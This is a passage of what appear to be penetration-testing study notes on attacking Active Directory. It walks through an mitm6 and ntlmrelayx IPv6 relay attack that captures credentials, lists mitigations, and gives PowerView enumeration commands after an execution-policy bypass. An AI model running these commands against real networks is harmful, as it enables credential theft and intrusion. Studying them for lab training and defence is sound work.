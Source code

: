   ```shell
  #download and setup the mitm6 tool

  #setup LDAPS as well

  mitm6 -d marvel.local

  #setup relay
  ntlmrelayx.py -6 -t ldaps://dc.ip -wh fakewpad.marvel.local -l lootme
  #generate activity on Windows machine by rebooting it
  #this dumps info in another directory

  ls lootme
  #contains useful info
  #if we keep the program running in background, and the user logins, the creds can be captured
  ```

  * Mitigation:

    * Block DHCPv6 traffic and incoming router advertisements.

    * Disable WPAD via Group Policy.

    * Enable both LDAP signing and LDAP channel binding.

    * Mark Admin users as Protected Users or sensitive accounts.

* [Pass-Back attacks](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack) can be used for printer hacking.

## Attacking Active Directory: Post-Compromise Enumeration

* [PowerView](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993):

  ```ps
  powershell -ep bypass

  . .\PowerView.ps1
  #runs the script, does not show any output

  Get-NetDomain
  #gives info about domain

  Get-NetDomainController
  #info about dc

  Get-DomainPolicy

  (Get-DomainPolicy)."system access"
  #info about particular policy

  Get-NetUser
  #all users

  Get-NetUser | select cn
  #only usernames

  Get-NetUser | select description
  #only description

  Get-UserProperty -Properties pwdlastset
  #view a particular property

  Get-NetComputer
  #list all computers in domain

  Get-NetComputer -FullData
  ```